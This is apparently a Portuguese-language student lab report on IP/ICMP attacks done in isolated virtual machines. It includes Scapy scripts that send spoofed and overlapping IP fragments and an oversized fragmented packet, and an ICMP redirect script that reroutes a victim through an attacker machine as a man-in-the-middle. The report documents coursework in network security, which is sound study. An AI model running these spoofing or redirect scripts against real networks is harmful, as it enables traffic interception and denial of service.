



# Laboratório 7 - IP/ICMP Attacks

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

## Tarefa 1 - IP Fragmentation

Para a primeira tarefa foram utilizadas duas VMs, conectadas por meio da Rede Nat.

### Tarefa 1.a: Conducting IP Fragmentation

Primeiramente, iniciamos um servidor UDP utilizando o seguinte comando:

```bash
nc -lu 9090
```

Em seguida, construímos os 3 fragmentos de um pacote UDP, cada um contendo 32 bytes, como mostrado no código python a seguir:

```python
#!/usr/bin/python3
from scapy.all import *

ID = 1001
payload = "A" * 32

## Primeiro Fragmento

udp = UDP(sport=7070, dport=9090)
udp.len = 8 + 32 + 32 + 32
ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 0
ip.flags = 1
pkt = ip/udp/payload
pkt[UDP].chksum = 0
send(pkt,verbose=0)

## Segundo Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 5
ip.flags = 1
ip.proto = 17
pkt = ip/payload
send(pkt,verbose=0)

## Terceiro Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 9
ip.flags = 0
ip.proto = 17
pkt = ip/payload
send(pkt,verbose=0)

print("Pacotes enviados")
```

Com o sevidor UDP rodando, enviamos os fragmentos de pacote construídos acima, e obtivemos a seguinte resposta na máquina de destino:



Utilizando o Wireshark para observar o tráfego da rede, foi possível notar que por padrão, ele remonta os fragmentos recebidos em um único pacote UDP. Portanto, desabilitamos essa função nas configurações, e conseguimos verificar o recebimento de cada fragmento:


### Tarefa 1.b: IP Fragments with Overlapping Contents

Assim como na tarefa anterior, construímos 3 fragmentos de pacote que se sobrepõem, para enviar ao servidor UDP. Em seguida, realizamos os seguintes testes:

- **Quando os 16 últimos bytes do primeiro fragmento se sobrepõem aos 16 primeiros bytes do segundo fragmento:**

Para esse caso, o código ficou similar à tarefa anterior, alterando o offset e modificando a carga de cada fragmento para facilitar a visualização do overlapping. O código ficou assim:

```python
#!/usr/bin/python3
from scapy.all import *

ID = 1001

## Primeiro Fragmento

udp = UDP(sport=7070, dport=9090)
udp.len = 8 + 32 + 32 + 32
ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 0
ip.flags = 1
payload = "A" * 32
pkt = ip/udp/payload
pkt[UDP].chksum = 0
send(pkt,verbose=0)

## Segundo Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 3
ip.flags = 1
ip.proto = 17
payload = "B" * 32
pkt = ip/payload
send(pkt,verbose=0)

## Terceiro Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 7
ip.flags = 0
ip.proto = 17
payload = "C" * 48
pkt = ip/payload
send(pkt,verbose=0)

print("Pacotes enviados")
```

Quando o primeiro fragmento é enviado antes, obtivemos o seguinte resultado:


Quando o segundo fragmento é enviado antes, obtivemos o mesmo resultado:


- **Quando o segundo fragmento está totalmente contido no primeiro fragmento:**

Para esse caso, alteramos o tamanho do segundo fragmento para que "coubesse" dentro do primeiro, desta forma o fragmento 2 terminará antes do final do offset do primeiro fragmento. O código ficou assim:

```python
#!/usr/bin/python3
from scapy.all import *

ID = 1001

## Primeiro Fragmento

udp = UDP(sport=7070, dport=9090)
udp.len = 8 + 48 + 48
ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 0
ip.flags = 1
payload = "A" * 48
pkt = ip/udp/payload
pkt[UDP].chksum = 0
send(pkt,verbose=0)

## Segundo Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 3
ip.flags = 1
ip.proto = 17
payload = "B" * 16
pkt = ip/payload
send(pkt,verbose=0)

## Terceiro Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 7
ip.flags = 0
ip.proto = 17
payload = "C" * 48
pkt = ip/payload
send(pkt,verbose=0)

print("Pacotes enviados")
```

Quando o primeiro fragmento é enviado antes, obtivemos o seguinte resultado:


Quando o segundo fragmento é enviado antes, novamente obtivemos o mesmo resultado:


### Tarefa 1.c: Sending a Super-Large Packet

Para a próxima tarefa, construímos um pacote que excede o tamanho máximo de um pacote IP, utilizando a técnica de fragmentação, e enviamos ao servidor UDP. O código ficou assim:

```bash
#!/usr/bin/python3
from scapy.all import *
import time

ID = 1001

## Primeiro Fragmento

udp = UDP(sport=7070, dport=9090)
udp.len = 65535
ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 0
ip.flags = 1
payload = "A" * 1200
pkt = ip/udp/payload
pkt[UDP].chksum = 0
send(pkt,verbose=0)

## Segundo Fragmento

offset = 151
for i in range(53):
	ip = IP(src="1.2.3.4", dst="10.0.2.9")
	ip.id = ID
	ip.frag = offset + i * 150
	ip.flags = 1
	ip.proto = 17
	payload = "B" * 1200
	pkt = ip/payload
	send(pkt,verbose=0)

## Terceiro Fragmento

ip = IP(src="1.2.3.4", dst="10.0.2.9") 
ip.id = ID
ip.frag = 151 + 53 * 150
ip.flags = 0
ip.proto = 17
payload = "C" * 700
pkt = ip/payload
send(pkt,verbose=0)

print("Pacotes enviados")
```

Podemos observar que ao rodar o programa, vários fragmentos foram enviados, excedendo o limite do tamanho do pacote UDP:


Além disso, podemos ver que não foi retornada nenhuma mensagem no terminal da VM de destino já que o tamanho do pacote UDP não bate com o tamanho dos dados enviados:


## Tarefa 2 - ICMP Redirect Attack

Para essa tarefa, desligamos a contra-medida para o ataque de redirecionamento ICMP:

```bash
sudo sysctl net.ipv4.conf.all.accept_redirects=1
```

Para realizar os experimentos utilizamos uma VM A (Vítima) e uma VM M (Atacante), onde M deve interceptar os pacotes enviados de A para B. O código construído ficou assim:

```bash
#!usr/bin/python3
from scapy.all import *

def spoof_pkt(pkt):
	if pkt[IP].src == '10.0.2.10' and pkt[IP].dst == '8.8.8.8':
		pkt[Ether].dst="08:00:27:bd:8a:cf"
		send(pkt)

IP1 = IP(src='10.0.2.1', dst='10.0.2.10')
ICMP1 =ICMP(type=5,code=0,gw='10.0.2.8')
IP2 = IP(src='10.0.2.10', dst='8.8.8.8')
pkt = IP1/ICMP1/IP2/UDP()
send(pkt)

pkt = sniff(filter='tcp',prn=spoof_pkt)
```

Após rodar o código e executar o código, podemos ver que o pacote enviado utilizando a técnica de spoofing foi redirecionado usando o IP da VM M (Atacante) como Gateway:


Ao executar o comando abaixo, podemos confirmar que o roteamento utilizado para enviar o pacote para o IP 8.8.8.8 foi redirecionado para usar o Gateway da máquina do Atacante:


Em seguida, tentamos realizar um ping para o IP 8.8.8.8, porém, como esperado, nenhum pacote foi recebido com sucesso, pois o atacante interceptou os pacotes, atuando como um MITM:


- **Questão 1: É possível utilizar ataques de redirecionamento ICMP para redirecionar para uma máquina remota?**

A partir dos resultados obtidos acima, podemos concluir que conseguiríamos realizar o redirecionamento desde que tenhamos realizado o mapeamento na tabela do gateway que no caso foi uma máquina virtual. 

- **Questão 2: É possível utilizar ataques de redirecionamento ICMP para redirecionar para uma máquina não existente na mesma rede?**

Não é possível, pois o IP que será utilizado como Gateway deve estar conectado à rede da vítima, caso contrário o roteador ao realizar o Broadcast para envio do pacote não encontraria este IP.

## Tarefa 3 - Routing and Reverse Path Filtering

O objetivo da última tarefa era familiarizar com o roteamento e entender um mecanismo de prevenção de spoofing chamado Reverse Path Filtering.

### Tarefa 3.a: Network Setup

Primeiramente, configuramos as 3 VMs conforme o roteiro pedia. As VMs A e R conectadas pela NAT Network, e as VMs M e B conectadas pela Internal Network. Dessa maneira, as VMs A e B não podem se conectar diretamente.

Em seguida, configuramos endereços IP estáticos para as interfaces que conectam as VMs B e M

### Tarefa 3.b: Routing Setup

Nesta tarefa, configuramos as tabelas de roteamento para a comunicação entre as máquinas, utilizando os comandos a seguir:

```bash
// List all the entries in the routing table
$ ip route
// Add an entry
$ sudo ip route add <network> dev <interface> via <router ip>
// Delete a routing entry
$ sudo ip route del ...
```

Em seguida, ativamos o IP Forwarding da VM R para que possa reencaminhar pacotes, atuando como um gateway, utilizando o seguinte comando:

```bash
sudo sysctl net.ipv4.ip_forward=1
```

Definimos para a Máquina B o IP estático `192.168.60.3`  para B, A recebeu o IP 10.0.2.15 da rede NAT estabelecida pelo VirtulBox. Para testar a conexão realizamos o ping entre as duas VMs:



Os pacotes abaixo foram capturados pelo router.


